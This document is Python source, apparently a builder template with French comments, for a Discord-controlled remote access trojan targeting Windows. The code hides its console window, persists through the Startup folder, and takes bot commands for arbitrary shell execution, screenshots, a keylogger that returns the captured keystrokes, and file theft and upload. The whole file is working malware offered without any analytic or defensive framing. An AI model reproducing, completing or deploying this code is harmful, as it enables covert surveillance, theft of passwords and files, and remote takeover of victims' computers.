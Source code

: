 import os
import sys
import discord
from discord.ext import commands
import ctypes
import winreg as reg
import os
import subprocess
import threading

# Masquer la console
kernel32 = ctypes.WinDLL('kernel32')
user32 = ctypes.WinDLL('user32')
SW_HIDE = 0
hWnd = kernel32.GetConsoleWindow()
if hWnd:
    user32.ShowWindow(hWnd, SW_HIDE)

# Ajouter au démarrage
def add_to_startup():
    try:
        app_name = "DiscordBotApp"
        exe_path = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup', f'{{app_name}}.lnk')
        
        if not os.path.exists(exe_path):
            script_path = sys.executable if getattr(sys, 'frozen', False) else __file__
            
            # Créer un raccourci dans le dossier de démarrage
            from win32com.client import Dispatch
            shell = Dispatch('WScript.Shell')
            shortcut = shell.CreateShortCut(exe_path)
            shortcut.Targetpath = script_path
            shortcut.WorkingDirectory = os.path.dirname(script_path)
            shortcut.save()
    except Exception as e:
        pass

add_to_startup()

# Configuration du bot
TOKEN = "{token}"
intents = discord.Intents.all()
bot = commands.Bot(command_prefix='!', intents=intents)

@bot.event
async def on_ready():
    await bot.change_presence(activity=discord.Game(name="En arrière-plan"))
    print(f'Connecté en tant que {{bot.user.name}}')

@bot.command(name='helpme')
async def help_command(ctx):
    embed = discord.Embed(title="Commandes disponibles", description="Liste des commandes du bot", color=0x00ff00)
    embed.add_field(name="!info", value="Affiche des informations sur le bot", inline=False)
    embed.add_field(name="!shutdown", value="Éteint le bot", inline=False)
    embed.add_field(name="!restart", value="Redémarre le bot", inline=False)
    embed.add_field(name="!cmd [commande]", value="Exécute une commande système", inline=False)
    embed.add_field(name="!screenshot", value="Prend une capture d'écran", inline=False)
    embed.add_field(name="!keylogger [start/stop]", value="Démarre/arrête le keylogger", inline=False)
    embed.add_field(name="!download [fichier]", value="Télécharge un fichier", inline=False)
    embed.add_field(name="!upload", value="Téléverse un fichier", inline=False)
    await ctx.send(embed=embed)

@bot.command(name='info')
async def info(ctx):
    embed = discord.Embed(title="Informations du Bot", color=0x00ff00)
    embed.add_field(name="Nom", value=bot.user.name, inline=True)
    embed.add_field(name="ID", value=bot.user.id, inline=True)
    embed.add_field(name="Serveurs", value=len(bot.guilds), inline=True)
    await ctx.send(embed=embed)

@bot.command(name='shutdown')
async def shutdown(ctx):
    if ctx.author.guild_permissions.administrator:
        await ctx.send("Extinction du bot...")
        await bot.close()
    else:
        await ctx.send("Vous n'avez pas la permission d'utiliser cette commande.")

@bot.command(name='restart')
async def restart(ctx):
    if ctx.author.guild_permissions.administrator:
        await ctx.send("Redémarrage du bot...")
        python = sys.executable
        os.execl(python, python, *sys.argv)
    else:
        await ctx.send("Vous n'avez pas la permission d'utiliser cette commande.")

@bot.command(name='cmd')
async def execute_cmd(ctx, *, command):
    if ctx.author.guild_permissions.administrator:
        try:
            result = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT, text=True)
            await ctx.send(f"```\\n{{result[:1900]}}```")
        except subprocess.CalledProcessError as e:
            await ctx.send(f"```\\nErreur: {{e.output[:1900]}}```")
    else:
        await ctx.send("Vous n'avez pas la permission d'utiliser cette commande.")

@bot.command(name='screenshot')
async def take_screenshot(ctx):
    if ctx.author.guild_permissions.administrator:
        try:
            import pyautogui
            screenshot = pyautogui.screenshot()
            screenshot.save('screenshot.png')
            with open('screenshot.png', 'rb') as f:
                picture = discord.File(f)
                await ctx.send(file=picture)
            os.remove('screenshot.png')
        except Exception as e:
            await ctx.send(f"Erreur: {{str(e)}}")
    else:
        await ctx.send("Vous n'avez pas la permission d'utiliser cette commande.")

keylogger_active = False
keylogs = []

@bot.command(name='keylogger')
async def keylogger_control(ctx, action: str):
    global keylogger_active
    if ctx.author.guild_permissions.administrator:
        if action.lower() == 'start':
            if not keylogger_active:
                keylogger_active = True
                threading.Thread(target=start_keylogger, daemon=True).start()
                await ctx.send("Keylogger démarré.")
            else:
                await ctx.send("Keylogger déjà en cours d'exécution.")
        elif action.lower() == 'stop':
            keylogger_active = False
            await ctx.send("Keylogger arrêté. Voici les logs:\\n```\\n{{'\\n'.join(keylogs)[:1900]}}```")
            keylogs.clear()
        else:
            await ctx.send("Usage: !keylogger [start/stop]")
    else:
        await ctx.send("Vous n'avez pas la permission d'utiliser cette commande.")

def start_keylogger():
    from pynput import keyboard
    def on_press(key):
        if keylogger_active:
            try:
                keylogs.append(str(key.char))
            except AttributeError:
                if key == keyboard.Key.space:
                    keylogs.append(' ')
                else:
                    keylogs.append(f'[{{str(key)}}]')
    
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()

@bot.command(name='download')
async def download_file(ctx, file_path: str):
    if ctx.author.guild_permissions.administrator:
        try:
            if os.path.exists(file_path):
                with open(file_path, 'rb') as f:
                    await ctx.send(file=discord.File(f))
            else:
                await ctx.send("Fichier non trouvé.")
        except Exception as e:
            await ctx.send(f"Erreur: {{str(e)}}")
    else:
        await ctx.send("Vous n'avez pas la permission d'utiliser cette commande.")

@bot.command(name='upload')
async def upload_file(ctx):
    if ctx.author.guild_permissions.administrator:
        if ctx.message.attachments:
            for attachment in ctx.message.attachments:
                try:
                    await attachment.save(attachment.filename)
                    await ctx.send(f"Fichier {{attachment.filename}} téléversé avec succès.")
                except Exception as e:
                    await ctx.send(f"Erreur lors du téléversement: {{str(e)}}")
        else:
            await ctx.send("Aucun fichier attaché.")
    else:
        await ctx.send("Vous n'avez pas la permission d'utiliser cette commande.")

# Démarrer le bot
try:
    bot.run(TOKEN)
except Exception as e:
    pass

